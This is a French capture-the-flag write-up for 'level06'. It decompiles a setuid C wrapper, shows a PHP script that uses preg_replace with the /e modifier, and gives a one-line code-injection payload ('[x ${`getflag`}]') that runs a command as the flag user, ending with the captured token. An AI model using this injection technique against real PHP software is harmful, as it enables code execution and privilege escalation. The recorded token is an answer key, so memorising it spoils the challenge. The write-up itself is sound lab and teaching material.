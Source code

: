 # [level06]

### Observations

##### Je décompile le programme '~/level06':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	const char	**v3;
	char		*v4;
	char		*v5;
	__uid_t		v7;
	__gid_t		v8;
	char		**v9;
	char		*v10[11];

	v10[7] = (char *)&argc;
	v3 = argv;
	v9 = (char **)envp;
	v4 = strdup(&s);
	v5 = strdup(&s);
	if ( v3[1] )
	{
		free(v4);
		v4 = strdup(v3[1]);
		if ( v3[2] )
		{
			free(v5);
			v5 = strdup(v3[2]);
		}
	}
	v8 = getegid();
	v7 = geteuid();
	setresgid(v8, v8, v8);
	setresuid(v7, v7, v7);
	v10[2] = v4;
	v10[3] = v5;
	v10[0] = "/usr/bin/php";
	v10[1] = "/home/user/level06/level06.php";
	v10[4] = 0;
	execve("/usr/bin/php", v10, v9);
	return 0;
}
```

##### J'affiche le programme '~/level06.php':
```php
#!/usr/bin/php
<?php
function y($m)
{
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z)
{
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

##### Détails des programmes:
```bash
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

##### Entrées du programme '~/level6'
```c
char *chemin_fichier
```

##### Fonctionnement:
Il y a deux programmes:
 1. Le premier est un programme `c` qui exécute un script php `~/level06.php` avec les droit de l'utilisateur `flag06`.
 2. Le deuxieme applique un motif regex `/(\[x (.*)\])/e` qui transforme le contenue du fichier par le contenu du deuxieme argument après l'avoir évalué.

##### Conclusions:
La fonction de remplacement de motif regex preg_replace avec le parametre `/e` est connue pour avoir des failles. \
En effet le parametre permet d'exécuter du code php. \
Je peux donc exécuter du code shell librement.

### Résolution
Je créé un fichier qui contient mon injection de code, puis je passe le chemin d'acces de ce dernier au programme `~/level6`. \
Le contenue de la deuxieme couche de regex est evaluée en php car l'opérateur `/e` est utilisé. \
Le parseur php exécute ensuite 'getflag' car il est entouré par les caractéres `´`. \
J'exécute ensuite le programme.

#### commandes:
```bash
echo '[x ${`getflag`}]' >/tmp/script
./level06 /tmp/script
```

**token :** wiok45aaoguiboiki2tuin6ub